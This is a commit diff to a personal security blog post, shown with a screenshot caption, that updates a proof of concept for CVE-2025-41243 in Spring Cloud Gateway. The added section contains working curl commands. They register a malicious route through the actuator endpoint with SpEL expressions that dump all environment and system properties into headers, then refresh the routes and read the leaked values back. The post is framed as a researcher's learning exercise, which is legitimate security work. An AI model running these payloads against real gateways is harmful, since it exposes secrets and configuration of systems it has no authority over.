

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2025-09-24-CVE-2025-41243_Spring_SpEL_property_modification.md, in a window 1280 px wide and 1400 px high, scrolled down 2284 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2928 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-24-CVE-2025-41243_Spring_SpEL_property_modification.md
updated after reading original CVE writeup

````diff
--- a/_posts/hacking_and_pentests/2025-09-24-CVE-2025-41243_Spring_SpEL_property_modification.md
+++ b/_posts/hacking_and_pentests/2025-09-24-CVE-2025-41243_Spring_SpEL_property_modification.md
@@ -2,7 +2,7 @@
 layout: post
 title:  "CVE-2025-41243 PoC for SpEL property modification using Spring Cloud Gateway Server WebFlux"
 datetime: 2025-09-24 22:40:00 MEST
-last_modified_at: 2025-09-24 22:40:00 MEST
+last_modified_at: 2025-09-25 14:00:00 MEST
 author: 'psytester'
 ---
 
@@ -138,9 +138,57 @@ I can read application specific `-DjavaProperties` values as well, which might c
 ## And now? Give me a light why this is a CVSS score of 10.0!
 
 A post is out on X by [@GobySec](https://x.com/GobySec/status/1970757633444630710) showing a screenshot with a payload.<br>
-But for me it does not work.
+But for me it does not work......   because the interessting part is not shown in picture
 
+## Got a ping by original reseacher ezzer as reply to my post on X
+ezzer gave me the link to his write up. It's better than my post ;-) [ezzer's writeup for CVE-2025-41243](https://blog.z3r.ru/posts/spring-cloud-gateway-spel-vuln)<br>
+Ahhhhh!!!! I wasn't that far away.<br>
+Without using Property Assignment spring.cloud.gateway.restrictive-property-accessor.enabled = false we would get errors in followup calls like
+```
+SpelEvaluationException: EL1008E: Property or field 'key' cannot be found on object of type 'java.util.concurrent.ConcurrentHashMap$MapEntry' - maybe not public or not valid?
+SpelEvaluationException: EL1008E: Property or field 'getPropertySources' cannot be found on object of type 'org.springframework.boot.web.reactive.context.ApplicationReactiveWebEnvironment' - maybe not public or not valid?
+```
 
+Based on ezzer's PoC where restrictive flag is set to false first, now I can read all environment and systemProperties at once
+```
+curl -X POST -H 'X-CSRF-TOKEN: true' -H 'Content-Type: application/json' -i http://gateway:9192/actuator/gateway/routes/route-spel-readdata --data '{
+  "id": "route-spel-readdata",
+  "uri": "http://1.2.3.4:8443/",
+  "predicates": [{
+    "name": "Path",
+    "args": {
+      "pattern": "/malicious"
+    }
+  }],
+  "filters": [{
+    "name": "AddRequestHeader",
+    "args": {
+      "name": "X-SpEL-get-environment",
+      "value": "#{@environment.getPropertySources.?[#this.name matches '\''.*optional:classpath:.*'\''][0].source.![{#this.getKey, #this.getValue.toString}]}"
+    }
+  },
+  {
+    "name": "AddRequestHeader",
+    "args": {
+      "name": "X-SpEL-get-systemProperties",
+      "value": "#{@systemProperties.![{#this.key, #this.value.toString}]}"
+    }
+  }
+]
+}'
+```
+
+## Apply new route
+```
+curl -X POST -i http://gateway:8092/actuator/gateway/refresh
+```
+
+## Read the new route and have fun
+```
+curl -i http://gateway:8092/actuator/gateway/routes/route-spel-readdata
+```
+
+That's enough for me. Still no RCE, but with property modification based on all visible environment and systemProperties keys, there will be some sign.<br>
 Thank you for reading. The CVE is not my credit, but the work on the PoC exploit was only for my private fun to learn about dynamic route definitions and mostly for my frustration to get a PoC. ;-)
 
 # Disclaimer
````
